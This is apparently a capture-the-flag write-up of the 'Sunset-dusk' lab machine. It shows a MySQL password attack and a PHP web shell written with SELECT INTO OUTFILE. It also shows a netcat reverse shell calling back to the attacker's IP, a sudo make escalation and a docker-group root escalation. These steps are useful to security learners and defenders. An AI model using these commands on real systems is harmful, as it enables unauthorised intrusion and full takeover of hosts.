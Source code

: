 ```yaml
---
layout: post
title: Sunset-dusk writeup
date: 2019-12-10 10:11
author: mzfr
---
```


## Nmap

![](images/dusk/nmap.png)

We can see lot of ports are open.

***

## MySQL

I didn't find anything good on the website so I decided to check the mysql, again I didn't had any logins for that so I started a dictionary attack on MySQL service, firsts I used `admin` as username but that didn't gave anything then I used `root` and that game me the password.

![](images/dusk/crack.png)

There was nothing in any of the table of any database.

So I moved on to look at the other port like `8080`.

![](images/dusk/port-8080.png)

We can see that there is a directory listing for `/var/tmp`. I tried to download those images and do some steganography but I didn't find anything. After spending some time I realise that we can try to use `mysql` to put a file on that directory.

I ran

```sql
select "<?php system($_GET['cmd']); ?>" into outfile '/var/tmp/rce.php';
```

![](images/dusk/query.png)

And now we can see a `rce.php` file on that directory listing on port 8080.

![](images/dusk/rce-file.png)

Now that file is there we can run command. To check if it is working I read `/home`

![](images/dusk/rce.png)

Let's run the `reverse shell` code to get a reverse shell.

```bash
➜ http -b http://192.168.56.139:8080/rce.php\?cmd\="nc -e /bin/sh 192.168.56.1 4444"
```

![](images/dusk/rev.png)

And then I got the `user.txt`

![](images/dusk/user.png)

## Privilege escalation

Since I was on the system I decided to run my enumeration script. I noticed that `docker` was on the `dusk` group so we need to find a way to become `dusk` then we can use docker to escalate to root.

![](images/dusk/groups.png)

Since I didn't find anything for `dusk` on the enumeration so I checked the www-data's sudo right by running `sudo -l` and got some.

![](images/dusk/sudo-right.png)

Then I used [gtfo](https://github.com/mzfr/gtfo) to find those on [gtfobin](https://gtfobins.github.io/)

![](images/dusk/make-gtfo.png)

We know that we have the sudo right so we will use the last one

```bash
COMMAND='/bin/sh'
sudo -u dusk make -s --eval=$'x:\n\t-'"$COMMAND"
```

![](images/dusk/dusk.png)

Since now we are `dusk` we know we can easiy exploit the `docker` to become root. To exploit this we can use the famous [chrisfosterelli/rootplease](https://hub.docker.com/r/chrisfosterelli/rootplease/)

You can directly run it as

```bash
docker run -v /:/hostOS -i -t chrisfosterelli/rootplease
```

That didn't worked for me directly so I cloned the repository and then I ran

```bash
$ docker build -t rootplease .
$ docker run
```

![](images/dusk/docker.png)

This gives use the rootshell and now we can read the root flag.

![](images/dusk/root.png)

***

This was a really simple but amazing machine. Thanks to [whitecr0wz](https://twitter.com/@whitecr0w1) for making this machine.

***

Thanks for reading, Feedback is always appreciated.

Follow me [@0xmzfr](https://twitter.com/0xmzfr) for more “Writeups”. And if you'd like to support me considering [donating](https://mzfr.github.io/donate/) 😄
